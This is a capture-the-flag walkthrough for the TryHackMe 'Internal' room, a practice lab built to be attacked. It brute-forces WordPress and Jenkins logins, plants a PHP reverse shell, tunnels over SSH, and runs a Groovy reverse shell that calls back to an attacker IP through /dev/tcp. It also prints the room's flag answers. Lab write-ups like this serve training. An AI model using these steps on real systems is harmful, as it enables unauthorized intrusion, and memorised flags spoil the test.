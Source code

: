 # [Internal](https://tryhackme.com/r/room/internal)

![Internal](./images/Internal.png)

[Internal](https://tryhackme.com/r/room/internal) is listed as an Medium room Penetration Testing Challenge. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* WPScan
* Tuneling
* Hydra

## Task 1 - Pre-engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

* User.txt
* Root.txt

Additionally, the client has provided the following scope allowances:

* Ensure that you modify your hosts file to reflect internal.thm
* Any tools or techniques are permitted in this engagement
* Locate and note all vulnerabilities found
* Submit the flags discovered to the dashboard
* Only the IP address assigned to your machine is in scope

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.


Note - this room can be completed without Metasploit

**Writeups will not be accepted for this room.**

## Answer the questions below

* I understand the scope of work

## Task 2 - Deploy and Engage the Client Environment

Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation.

### Enumeration & Exploitation

* Scan open port with Nmap

	```
	nmap $IP -p- --script vuln | tee nmap-scan.txt
	```

	![nmap](./images/nmap.png)

* Scan direcotry with Gobuster

	```
	gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $IP -t 50 | tee gobuster.txt
	```

	![gobuster](./images/gobuster.png)

	We found directory `/blog`

* Try to open `http://$IP/blog`

	![web-internal](./images/web-internal.png)

	We can see on the title Internal link to `http://internal.thm/blog`, try to open web page again.

	![internal-web](./images/internal-web.png)

* Edit `/etc/hosts`, add target IP as `internal.thm`

	![hosts](./images/hosts.png)

* Scan wordpress with wpscan

	```
	wpscan --url http://internal.thm/blog -e u | tee wpscan.txt
	```

	![wpscan](./images/wpscan.png)

	We find username `admin`

* Try to brute force 

	```
	wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
	```

	![password](./images/password.png)

	We got password `admin`

* Try to login `http://internal.thm/blog/wp-login.php`

	![wp-login](./images/wp-login.png)

	![login](./images/login.png)

	![dashboard](./images/dashboard.png)

* In the web interface, go to “Appearance > Theme Editor > 404.php” and replace the PHP code with a PHP reverse shell

	![theme](./images/theme.png)

* Setup listener on attacke machine

	```
	nc -nvlp 8888
	```

	![listener](./images/listener.png)

* Browsing to the location of this 404 page to get reverse shell

	```
	http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
	```

	![revshell](./images/revshell.png)

* Now we should upgrade our shell to make it more stable with Pyhton

	```
	python -c "import pty; pty.spawn('/bin/bash')"
	```

	![pty](./images/pty.png)

* After some more searching, I found a interesting file called wp-save.txt located in the /opt directory. Opening this file, and we got the credential

	![cred](./images/cred.png)

* Change user to `aubreanna`, and get the `user.txt`

	![aubreanna](./images/aubreanna.png)

* Try to open another file `jenkins.txt`

	![jenkins](./images/jenkins.png)

	It says that an internal Jenkins service is running

	```
	netstat -tan | grep 8080
	```

	![netstat](./images/netstat.png)

	We confirm that the service is only available to localhost

* Use SSH tunneling to connect to this remote service and make it accessible on our attacker machine

	```
	ssh -L 4444:172.17.0.2:8080 aubreanna@$IP
	```

	![ssh](./images/ssh.png)

* Open `localhost:4444` on browser

	![localhost](./images/localhost.png)

* Enable Web Developer Tools, try to login with credential `admin:password`, and request resend

	![request](./images/request.png)

* Brute force login with hydra

	```
	hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 4444 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid"
	```

	![hydra](./images/hydra.png)

* Login Jenkins, we can execute commands and exploit this to establish a reverse shell. 

	![dashboard-jenkins](./images/dashboard-jenkins.png)

* Setup new listener on port 5555

	![listen](./images/listen.png)

* Add script under ‘Manage Jenkins’ > ‘Tools and Actions,’ there is a ‘Script Console’ and click run

	```
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.17.127.223/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
	```

	![script](./images/script.png)

* Get the shell and root credential

	![root-cred]

* Login ssh with root credential and get the `root.txt`

	![flag](./images/flag.png)

### Answer the questions below

* User.txt Flag
	
	`THM{int3rna1_fl4g_1}`

	![user](./images/user.png)

* Root.txt Flag

	`THM{d0ck3r_d3str0y3r}`

	![root](./images/root.png)